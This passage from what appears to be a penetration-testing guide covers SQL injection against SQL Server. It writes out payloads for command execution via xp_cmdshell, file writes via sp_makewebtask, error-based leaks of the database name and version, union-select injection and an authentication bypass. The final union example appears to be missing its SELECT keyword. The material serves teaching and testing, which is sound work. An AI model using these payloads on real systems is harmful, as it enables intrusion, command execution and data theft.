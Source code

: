 Below we show how to execute a shell command that writes the output of the command `dir c:\inetpub` in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses `xp_cmdshell`:

`exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--`

Alternatively, we can use `sp_makewebtask`:

`exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--`

A successful execution will create a file that can be browsed by the pen tester. Keep in mind that `sp_makewebtask` is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future.

In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function `db_name()` to trigger an error that will return the name of the database:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())`

Notice the use of [convert](https://docs.microsoft.com/en-us/sql/t-sql/functions/cast-and-convert-transact-sql?view=sql-server-2017):

`CONVERT ( data_type [ ( length ) ] , expression [ , style ] )`

`CONVERT` will try to convert the result of `db_name` (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB.

The following example uses the environment variable `@@version`, combined with a `union select`-style injection, in order to find the version of the SQL Server.

`/form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--`

And here's the same attack, but using again the conversion trick:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)`

Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener.

In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points.

### Example 1: Testing for SQL Injection in a GET Request

The most simple (and sometimes most rewarding) case would be that of a login page requesting an username and password for user login. You can try entering the following string "' or '1'='1" (without double quotes):

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application.

### Example 2: Testing for SQL Injection in a GET Request

In order to learn how many columns exist

`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

